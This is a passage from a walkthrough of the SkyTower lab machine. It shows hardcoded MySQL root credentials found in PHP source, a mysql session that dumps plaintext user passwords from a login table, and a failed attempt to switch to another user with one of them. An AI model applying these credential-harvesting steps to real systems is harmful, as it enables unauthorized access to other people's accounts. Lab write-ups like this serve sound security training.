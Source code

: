 [php]$db = new mysqli('localhost', 'root', 'root', 'SkyTech');[/php]

Using the mysql client, it is possible to obtain all users passwords, as they are stored unencrypted in the login table within the SkyTech database


``` bash

john@SkyTower:~$ mysql -uroot -proot
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 51
Server version: 5.5.35-0+wheezy1 (Debian)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use SkyTech;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)

mysql>
```


That's handy - William looks like he's revered by the company, as his password is (a typo) of 'sensible'. Unfortunately his credentials do not work


``` bash

john@SkyTower:~$ su william
Password:
su: Authentication failure
john@SkyTower:~$
```
